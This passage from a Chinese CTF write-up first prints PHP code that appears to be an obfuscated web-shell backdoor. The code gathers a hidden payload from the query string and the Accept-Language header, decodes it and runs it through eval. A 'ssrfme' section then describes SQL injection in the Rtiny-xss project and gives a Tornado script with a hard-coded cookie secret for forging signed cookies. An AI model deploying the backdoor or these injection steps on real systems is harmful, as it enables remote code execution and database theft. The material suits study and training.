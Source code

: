 ```php
    parse_str($u["query"],$q);
    $q=array_values($q);
    preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);
    if($q&&$m){
        @session_start();
        $s=&$_SESSION;
        $ss="substr";
        $sl="strtolower";
        $i=$m[1][0].$m[1][1];
        $h=$sl($ss(md5($i.$kh),0,3));
        $f=$sl($ss(md5($i.$kf),0,3));
        $p="";
        for($z=1;$z<count($m[1]);$z++)
            $p.=$q[$m[2][$z]];
        if(strpos($p,$h)===0){
            $s[$i]="";$p=$ss($p,3);
        }
        if(array_key_exists($i,$s)){
            $s[$i].=$p;$e=strpos($s[$i],$f);
            if($e){
                $k=$kh.$kf;
                ob_start();
                @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));
                
                $o=ob_get_contents();
                ob_end_clean();
                $d=base64_encode(x(gzcompress($o),$k));
                print("<$k>$d</$k>");
                @session_destroy();
            }
        }
    }
}
?>
```

## ssrfme

看大佬wp得到的提示就是github上的开源项目Rtiny：https://github.com/r0ker/Rtiny-xss/tree/master

构造pass为数组，得到报错信息，提示Rtiny

这个项目存在多处sql注入点，查看项目源码可以发现除了pass,email参数外，还要构造username，并且经过`self.get_secure_cookie`塞进cookie里

解题：

1.本地搭建tornado，安装指令python -m pip install tornado，然后运行下列脚本，访问127.0.0.1/index，得到cookie里加密后的报错注入的username

```
# coding:utf-8
import tornado.ioloop
import tornado.web 
# @author: V0W
# @reference: https://blog.csdn.net/include_heqile/article/details/82591707

settings = { 
   "cookie_secret" : "M0ehO260Qm2dD/MQFYfczYpUbJoyrkp6qYoI2hRw2jc=",
}

class MainHandler(tornado.web.RequestHandler):
    def get(self):
        # 依次执行下列语句，爆破数据库，表，列和字段
        self.write("helloword")
```